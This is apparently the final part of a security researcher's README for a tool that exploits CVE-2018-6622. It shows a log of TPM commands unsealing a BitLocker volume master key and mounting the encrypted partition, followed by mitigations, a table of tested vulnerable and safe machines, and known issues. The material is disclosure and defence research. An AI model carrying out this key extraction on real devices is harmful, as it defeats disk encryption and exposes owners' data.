Initializing Local Device TCTI Interface
    [*] Input Size 59
00000000  80 01 00 00 00 3b 00 00  01 76 40 00 00 07 40 00  |.....;...v@...@.|
00000010  00 07 00 20 e3 4c e2 d5  48 7f 73 97 b2 8d b4 e7  |... .L..H.s.....|
00000020  93 de 4c 36 91 8a a5 1f  3b 48 0c 1f 7f 75 79 c5  |..L6....;H...uy.|
00000030  ee fa a9 83 00 00 01 00  10 00 0b                 |...........|

    [*] Output Size 48, Result: Success
00000000  80 01 00 00 00 30 00 00  00 00 03 00 00 00 00 20  |.....0......... |
00000010  20 cf 43 fd 28 52 c0 e9  91 2f d8 10 e5 f7 20 4d  | .C.(R.../.... M|
00000020  7e 0e dc ce 5c 97 97 71  06 7a af ee cc 45 b2 10  |~...\..q.z...E..|
    [>>] Success

    [>>] Execute TPM2_PolicyAuthorize... Input file tpm2_policyauthorize.bin
Initializing Local Device TCTI Interface
    [*] Input Size 14
00000000  80 01 00 00 00 0e 00 00  01 6b 03 00 00 00        |.........k....|

    [*] Output Size 10, Result: Success
00000000  80 01 00 00 00 0a 00 00  00 00                    |..........|
    [>>] Success

    [>>] Execute TPM2_PolicyAuthorize... Input file tpm2_policypcr.bin
Initializing Local Device TCTI Interface
    [*] Input Size 58
00000000  80 01 00 00 00 3a 00 00  01 7f 03 00 00 00 00 20  |.....:......... |
00000010  5f f5 9b 8f b8 7c 48 dc  43 68 60 eb a2 70 cc a2  |_....|H.Ch`..p..|
00000020  22 4e 7b b9 f0 83 ed fe  78 91 fa ed e2 b4 de 5a  |"N{.....x......Z|
00000030  00 00 00 01 00 0b 03 80  08 00                    |..........|

    [*] Output Size 10, Result: Success
00000000  80 01 00 00 00 0a 00 00  00 00                    |..........|
    [>>] Success

    [>>] Execute TPM2_Unseal... Input file tpm2_unseal.bin
Initializing Local Device TCTI Interface
    [*] Input Size 27
00000000  80 02 00 00 00 1b 00 00  01 5e 80 00 00 01 00 00  |.........^......|
00000010  00 09 03 00 00 00 00 00  00 00 00                 |...........|

    [*] Output Size 97, Result: Success
00000000  80 02 00 00 00 61 00 00  00 00 00 00 00 2e 00 2c  |.....a.........,|
00000010  2c 00 00 00 01 00 00 00  03 20 00 00 10 c7 ea 90  |,........ ......|
00000020  6d 6d a4 82 1f 96 cc 81  66 06 e9 12 fa 04 56 b3  |mm......f.....V.|
00000030  5a 5c 11 61 fc c5 aa 74  6a 23 f5 4b 00 20 34 5a  |Z\.a...tj#.K. 4Z|
00000040  8b cd 2e 22 14 3d 14 7b  dd 9b 1b 4f 38 fe 3a 44  |...".=.{...O8.:D|
00000050  54 c4 96 94 0e 41 a4 dd  4c a9 ca 76 3e 33 00 00  |T....A..L..v>3..|
00000060  00                                                |.|
    [>>] Success

Mount BitLocker-locked Partition with VMK.
    [>>] VMK = 10C7EA906D6DA4821F96CC816606E912FA0456B35A5C1161FCC5AA746A23F54B
    [>>] Create VMK data... Success
    [>>] Mount BitLocker-Locked partition(/dev/nvme0n1p4)...

Mon Dec  2 01:14:07 2019 [INFO] dislocker by Romain Coltel, v0.7.1 (compiled for Linux/x86_64)
Mon Dec  2 01:14:07 2019 [INFO] Compiled version: master:dcd6b9b
Mon Dec  2 01:14:07 2019 [INFO] Volume GUID (INFORMATION OFFSET) supported
Mon Dec  2 01:14:07 2019 [INFO] BitLocker metadata found and parsed.
Mon Dec  2 01:14:07 2019 [INFO] Used VMK file decryption method
Mon Dec  2 01:14:07 2019 [INFO] Found volume's size: 0xba7bffe00 (50059017728) bytes
Mon Dec  2 01:14:07 2019 [INFO] Running FUSE with these arguments: 
Mon Dec  2 01:14:07 2019 [INFO]   `--> 'dislocker'
Mon Dec  2 01:14:07 2019 [INFO]   `--> './windows'
```

# 4. Mitigations
The root cause of CVE-2018-6622 and related vulnerability are improper handling of an abnormal sleep case, and you can remove the vulnerability by following two options.
 - **Use Microsoft's BitLocker with a PIN**: If you use a PIN with a TPM, VMK of BitLocker cannot be extracted without PIN. 
<center>  </center>

 - **Updating the latest BIOS firmware to your system**: We reported the vulnerability to major manufacturers such as Intel, Dell, and Lenovo. They already released new firmware.

 - **Disable sleep feature in your BIOS**: Recent BIOS firmware has a feature that disables sleep for several reasons. Therefore, please enter your BIOS setup and disable sleep.

# 5. Test Results
| Model               | Status         | BIOS Vendor              | BIOS Version                       | BIOS Release Date (MM/DD/YY) | TPM 2.0 Manufacturer  | Vendor String | 
| ------------------- | :------------: | ------------------------ | ---------------------------------- | ---------------------------- | --------------------- | ------------- |
| Intel NUC8i7HVK     | **Vulnerable** | Intel                    | J68196-503                         | 12/17/2018                   | Intel, fTPM           | Intel         |
| Intel NUC5i5MYHE    | **Vulnerable** | Intel                    | MYBDWi5v.86A.0055.2019.0820.1505   | 08/20/2019                   | Infineon (IFX), dTPM  | SLB9665       |
| HP EliteDesk 800 G4 | **Safe**       | HP                       | Q21                                | 02/15/2019                   | Infineon (IFX), dTPM  | SLB9670       |
| Dell Optiplex 7060  | **Safe**       | Dell                     | 1.4.2                              | 06/11/2019                   | NTC, dTPM             | rls NPCT      |
| ASUS Q170M-C        | **Vulnerable** | American Megatrends Inc. | 4212                               | 07/24/2019                   | Infineon (IFX), dTPM  | SLB9665       |
| ASUS PRIME Z390-A   | **Safe**       | American Megatrends Inc. | 1302                               | 09/02/2019                   | Intel, fTPM           | Intel         |
| ASRock Z390 Extreme | **Safe**       | ASRock                   | P4.20                              | 07/29/2019                   | Intel, fTPM           | Intel         |
| GIGABYTE AORUS Z390 Elite | **Safe** | American Megatrends Inc. | F8                                 | 06/05/2019                   | Intel, fTPM           | Intel         |
| GIGABYTE Z370-HD3   | **Safe**       | American Megatrends Inc. | F13                                | 08/13/2019                   | Intel, fTPM           | Intel         |
| MSI MAG Z390M MORTAR | **Safe**      | American Megatrends Inc. | 1.50                               | 08/08/2019                   | Intel, fTPM           | Intel         |
 

# 6. Known Issues
 - Some machines turn off the power of a USB storage while S3 sleeping state and could not connect it again. In this case, please plug the USB storage into "always powered port" of your system.
 - Ubuntu 18.04 sometimes failed to find a TPM in your system. In this case, please reboot and try it again.
 - If Secure Boot is enabled, you need to add the BitLeaker bootloader with the MOK manager.
